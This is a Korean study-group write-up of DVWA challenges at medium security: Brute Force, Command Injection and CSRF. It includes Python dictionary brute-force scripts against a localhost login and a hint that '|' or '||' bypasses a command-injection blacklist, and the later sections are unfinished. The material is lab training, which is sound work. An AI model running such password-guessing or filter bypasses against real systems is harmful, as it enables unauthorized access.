

##### 해당 게시글은 빡공팟 4기(with TeamH4C)와 관련되어 있습니다
-----


중간 난이도로 설정한 뒤 시작!

# > DVWA: Brute Force	

## 삽질

```php
// Login failed
sleep( 2 );
echo "<pre><br />Username and/or password incorrect.</pre>"; 
```
low 레벨에서 없었던 코드가 한줄 추가되었다. 로그인 실패 시 `sleep(2);` 이다. 해당 시간 지연으로 인해 브루트 포싱에 시간이 걸릴 것으로 생각된다.

Hydra 툴을 이용하여 사전 공격부터 천천히 시도해본다면 가능할 것 같다. 따로 무한한 입력에 제한을 두지 않았기 때문이다. 하지만 이번에는 직접 파이썬 코드를 이용하여 시간 지연이 발생될 경우 다음 쿼리를 날리도록은 할 수 없을까? Timeout을 이용해서 한번 작성해보자.

```python
import requests
cookie = {'security': 'medium','PHPSESSID':'nku81sajta924jmrjmtv53f9dh'}
fp = open("./dictionary.txt","r")

dictionary_list = [x.strip() for x in fp.readlines()]
for upw in dictionary_list:
	url = f'http://localhost/DVWA/vulnerabilities/brute/?username=admin&password={upw}&Login=Login#'
	
	try:
		response = requests.get(url=url,timeout=0.2,cookies=cookie)
	except requests.exceptions.Timeout as TT:
		print(f'[x] Failed... {upw}')
	else:
		print(f"[o] SUCCESS... {upw}")
		break

```

여러 구글링을 통해서 작성해보았는데 일단 로그인이 필요한 문제이므로 `requests.get()`을 이용할 때 쿠키 값을 전달했다. 그리고 `try...except`를 이용해서 요청을 보낼 때 제한한 타임 아웃이 발생할 경우에는 빠르게 넘어가도록 하였다. 그리하여 0.2초 내에 반응이 없으면 그냥 넘어가는 것이다.

그러나 실제 저 코드를 돌렸을 때 정답이 되는 비밀번호를 그냥 지나쳐버렸다. 하나하나 테스트할 경우에는 정확하게 찾아내었는데도 말이다. 그래서 시간을 들여 분석하여 내 방식대로 이해한 바는 다음과 같다.

1. 현재 로그인된 세션에서 요청을 한다.
2. 보낸 요청에 대한 응답을 기다린다.
3. 기다리는 동안에 다른 요청을 못보낸다.

결국에는 다시 2초를 기다려야만 하는 셈이다. 그래서 떠오른 아이디어는 세션 별로 걸릴 것이라는 나의 뇌피셜에 코드를 더 얹기로 했다. 타임아웃이 발생하는 순간 현재 로그인된 세션을 끊고 다시 로그인을 시도하여 요청하는 것이다. 가능할지 모르겠다.

<br>

문제를 풀다가 새로운 것만 배우고 결과적으로는 실패했다.
```python
import requests
params={
	'username':'admin',
	'password':'1234',
	'Login':'Login'
}

login_url = "http://localhost/DVWA/login.php/"

fp = open("./dictionary.txt","r")
dictionary_list = [x.strip() for x in fp.readlines()]

for upw in dictionary_list:
	url = f'http://localhost/DVWA/vulnerabilities/brute/?username=admin&password={upw}&Login=Login#'
	s = requests.session()
	res = s.post(login_url,data=params)
	cookie = {'PHPSESSID': res.cookies['PHPSESSID'],'security':'medium'}

	try:
		response = requests.get(url=url,timeout=0.5,cookies=cookie)
	except requests.exceptions.Timeout as TT:
		print(f'[x] Failed... {upw}')
		s.close()
	else:
		print(f"[o] SUCCESS... {upw}")
		break
```

requests의 `session()`을 이용하여 로그인 진행 후 얻은 쿠키 값으로 요청에 전달하려 했으나 실패했다. 2시간 정도 이해할 수 없는 상황에 뇌정지가 왔었는데 아래 메세지를 본 후에 이 방법을 추후 탐구하기로 마음 먹었다.



디버깅 용으로 `print(res.text)`를 넣어봤었는데 해당 메세지가 있었는데 CSRF를 막아놨다. 좀 더 CSRF에 대해서 이해한 다음에 뚫어봐야 겠다(?). 나름 request 모듈과 except 활용법을 알게 되어 의미있었다.


<br>

## Write up

시간이 걸리기는 하지만 가능은 하다...

```python
import requests
cookie = {'security': 'medium','PHPSESSID':'jdl0o7bvnkfuvrris8kg87b3ff'}
fp = open("./dictionary.txt","r")

dictionary_list = [x.strip() for x in fp.readlines()]
for upw in dictionary_list:
	url = f'http://localhost/DVWA/vulnerabilities/brute/?username=admin&password={upw}&Login=Login#'

	
	response = requests.get(url=url,cookies=cookie)
	if "incorrect" not in response.text:
		print(f"[o] SUCCESS... {upw}")
		break
	else: 
		print(f'[x] Failed... {upw}')
```


<br><br><br>

-----

# > DVWA: Command Injection 

## 삽질

```php
// Set blacklist
$substitutions = array(
	'&&' => '',
	';'  => '',
); 
```

`&&` 기호와 `;` 기호가 막혀있지만 나는 `|` 기호와 `||` 기호를 알고 있다.

<br>

## Write up


<br><br><br>

-----

# > DVWA : CSRF

## 삽질

```php
if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) { 
...
else {
        // Didn't come from a trusted source
        echo "<pre>That request didn't look correct.</pre>";
    } 
```
medium에서는 위 코드가 추가되었는데 `stripos()`는 문자열을 찾는 함수로 참조하는 HTTP이름이 서버 네임와 같은지 판별하는 듯 하다

아 왜 힘들지? ㅂ

## Write up


